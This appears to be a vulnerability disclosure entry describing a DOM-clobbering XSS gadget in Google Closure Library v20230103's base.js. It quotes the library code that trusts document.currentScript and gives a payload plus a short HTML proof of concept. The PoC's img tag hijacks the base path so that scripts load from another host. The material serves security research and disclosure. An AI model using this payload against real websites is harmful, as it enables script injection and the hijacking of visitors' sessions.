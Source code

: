 ## Google Closure Library

### Meta

+ Library: Google Closure
+ Stars: 4.9K
+ Version: v20230103
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Accepted
+ Foundby: TheHulk


### Library

https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.js
https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.min.js


### Vulnerable Code Snippet

```javascript
// If we have a currentScript available, use it exclusively.
var currentScript = doc.currentScript;
if (currentScript) {
  var scripts = [currentScript];
} else {
  var scripts = doc.getElementsByTagName('SCRIPT');
}
// Search backwards since the current script is in almost all cases the one
// that has base.js.
for (var i = scripts.length - 1; i >= 0; --i) {
  var script = /** @type {!HTMLScriptElement} */ (scripts[i]);
  var src = script.src;
  var qmark = src.lastIndexOf('?');
  var l = qmark == -1 ? src.length : qmark;
  if (src.slice(l - 7, l) == 'base.js') {
    goog.basePath = src.slice(0, l - 7);
    return;
  }
}
```
```javascript
goog.DebugLoader_.prototype.loadClosureDeps = function() {
// Circumvent addDependency, which would try to transpile deps.js if
// transpile is set to always.
var relPath = 'deps.js';
this.depsToLoad_.push(this.factory_.createDependency(
    goog.normalizePath_(goog.basePath + relPath), relPath, [], [], {}));
this.loadDeps_();
};
```

which eventually gets loaded...


## PoC

```html
<!--Library-->
<script src=https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.js></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999/base.js"></img>
<!--Payload-->
```
